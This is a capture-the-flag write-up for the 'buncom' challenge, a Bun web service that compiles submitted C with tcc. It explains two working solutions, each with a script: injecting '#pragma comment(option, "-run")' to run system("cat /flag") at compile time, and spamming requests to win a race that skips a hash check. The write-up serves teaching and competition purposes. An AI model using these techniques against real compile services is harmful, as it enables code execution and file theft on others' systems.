






# buncom

|              |                                                                                    |
| ------------ | ---------------------------------------------------------------------------------- |
| **CTF**      | [Cyberspace CTF](https://2024.csc.tf/) [(CTFtime)](https://ctftime.org/event/2428) |
| **Author**   | [nullchilly](https://github.com/nullchilly)                                        |
| **Category** | misc                                                                               |
| **Solves**   | 3 / 830                                                                            |
| **Files**    | [handout_buncom.zip](./handout_buncom.zip)                                         |

> Note: There is no `challenge.yaml` for this challenge since it requires per-team instances.

# Solution

> [!NOTE]
> This challenge is inspired by [Echo as a Service](https://github.com/lebr0nli/My-CTF-Challenges/tree/main/HITCON%20CTF%202024/Echo%20as%20a%20Service). Much thanks to [lebr0nli](https://github.com/lebr0nli)!

## Overview

Upon launching an instance you can see a code editor and a submit button



After further inspection using the given [index.js](./challenge/src/index.js) file, lets break down the flow of the website:

- Compile `default.c` and save the md5 hash of the output binary.

```js
import { $ } from "bun";

const src = "/tmp/custom.c",
  exe = "/tmp/a.out";

let hash = await $`
  cp default.c ${src};
  timeout 0.1 tcc ${src} -o ${exe};
  timeout 0.1 md5sum ${exe}`.text(),
  output = "";
```

This is just a simple misdirection, I don't actually think you can construct an another file with the same `md5sum`, especially using binary output format but I'm happy to be proven wrong!

- Serve the http website on port 1337 using bun

```js
const server = Bun.serve({
  host: "0.0.0.0",
  port: 1337,
  async fetch(req) {
    const url = new URL(req.url);
    if (url.pathname === "/") {
```

- If the parameter code exists, write its content to `$src` and compile to `$exe` using tcc

```js
const code = new URLSearchParams(url.search).get("code");
if (code) {
  try {
    output =
      await $`echo ${code} > ${src}; timeout 0.1 tcc ${src} -o ${exe}`.text();
  } catch (err) {
    output = err.stderr.toString();
  }
}
```

Again, a misdirection. There isn't any bun command injection to my knowledge but if you found a 0day you deserve the flag anyway!

- Compare md5 hash of the binary. If the hash is different, recompile using `tcc default.c`

```js
if ((await $`timeout 0.1 md5sum ${exe}`.text()) !== hash) {
  await $`timeout 0.1 tcc default.c -o ${exe}`.text();
  output = `md5sum ${exe} != ` + hash;
}
```

- Finally, return the content from the binary as `text/html` (See [default.c](./challenge/src/default.c))

```js
let html = await $`${exe}`.text();
html = html.replace("__CODE__", Bun.escapeHTML(await Bun.file(src).text()));
return new Response(output + html, {
  headers: {
    "Content-Type": "text/html; charset=utf-8",
    "Content-Security-Policy":
      "script-src 'self'; object-src 'none'; base-uri 'none'; require-trusted-types-for 'script';",
  },
});
```



Let's try to include the flag



Hmm tcc seems to output very little compile error details

Since we know the flag format, we can try to make the flag include-valid:



This doesn't output the full flag because it contains special characters

You can keep playing with `#define` but I don't think it's possible to leak the part that contains a single `'` as it breaks tcc parsing. For reference you can see the [full flag](./challenge/flag)

An another idea is try to make it compile error or not based on the content of the flag. There's an excellent writeup for [hxp compilerbot](https://rpis.ec/blog/hxp-26c3-ctf-compilerbot/). However, this doesn't work because tcc doesn't support `.incbin` in the first place

## Solution

### Intended solution

Since this challenge ran tcc instead of gcc or clang, it makes sense to look at the help page:

```cpp
> tcc -h
Tiny C Compiler 0.9.28rc - Copyright (C) 2001-2006 Fabrice Bellard
Usage: tcc [options...] [-o outfile] [-c] infile(s)...
       tcc [options...] -run infile (or --) [arguments...]
General options:
  -c           compile only - generate an object file
  -o outfile   set output filename
  -run         run compiled source
```

What if we can run code during compile time in tcc? If we can override the tcc compiler flag to add `-run` that would be great! That way the `md5sum` will stay the same

Maybe something similar to `#pragma GCC optimize "-Ofast"`?

Notice these 3 lines in [Dockerfile](./challenge/Dockerfile), tcc was installed from source

```docker
RUN apt update && apt install git gcc make -y
RUN git clone --depth=1 https://github.com/TinyCC/tinycc.git tinycc
RUN cd tinycc && ./configure --prefix=/usr && make && make install
```

This gives us the motivation to look at the latest source code [tinycc/tests/tests2/60_errors_and_warnings.c](https://github.com/TinyCC/tinycc/blob/1cee0908d2a72d2568b2e915e8d619f049dfcf92/tests/tests2/60_errors_and_warnings.c#L416-L422)

```cpp
#pragma comment(option, "-Wall")
#elif defined test_switch_W2
#pragma comment(option, "-Wunsupported -Wno-implicit-function-declaration -Wstuff")
#elif defined test_switch_W3
#pragma comment(option, "-Wwrite-strings -Werror=discarded-qualifiers")
#elif defined test_switch_W4
#pragma comment(option, "-Wunsupported -Wno-error=implicit-function-declaration -Werror")
```

Ah there it is, you can add the compiler flags during compile time! Which means it will probably works for all options too and specifically `#pragma comment(option, "-run")`

`solve.py`

```py
URL = "http://localhost:1337/"
URL = "http://5b964bb4-10f6-4d1b-a191-a1e4578261b7.bugg.cc/"

import requests, urllib

code = """
#pragma comment(option, "-run")

int main() {
  system("cat /flag");
}
"""

print(requests.get(f"{URL}?code=" + urllib.parse.quote(code)).text)
```

```sh
> python solve.py
CSCTF{I_tried_so_hard:(_and_got_so_far._But_in_the_end,_/flag_doesn't_even_matter!4ZeR18AXbDlZvKor91No}
```

> [!NOTE]
> But why would we compile from source when we can just install `tcc` using `apt install tcc -y`?
> The reason is that `oven/bun:slim` uses debian under the hood and they shipped a broken version of tcc. This will make `#pragma` [deadlock with tcc_warning()](https://github.com/TinyCC/tinycc/commit/dda95e9b0b30771369efe66b4a47e94cf0ca7dc0)

# Unintended solution 😭

Fun fact, all 3 solves in this ctf were unintended using race condition.

Because the fetch function is async, if you spam enough requests the website flow might look like this:

```js
await $`timeout 0.1 tcc ${src} -o ${exe}`;
return new Response(await $`${exe}`.text());
```

As you can see it completely bypassed the hash check, just spam requests until you get the above scenario:

`solve_race.js`

```js
let URL = "http://localhost:1337/";
URL = "https://43b64d26-d839-427d-92b2-68cf49cde759.bugg.cc";

for (let i = 0; i < 1000; i++)
  fetch(`${URL}?code=${encodeURIComponent('main() { system("cat /flag"); }')}`)
    .then((res) => res.text())
    .then((text) => {
      if (text.includes("CSCTF")) console.log(text);
    });
```

```sh
> bun solve_race.js
CSCTF{I_tried_so_hard:(_and_got_so_far._But_in_the_end,_/flag_doesn't_even_matter!4ZeR18AXbDlZvKor91No}
```

Solution by [t-rekttt](https://github.com/t-rekttt) which is also a first blood, congratulations!



`t-rekttt` also gave idea on how to prevent race condition, thank you so much!


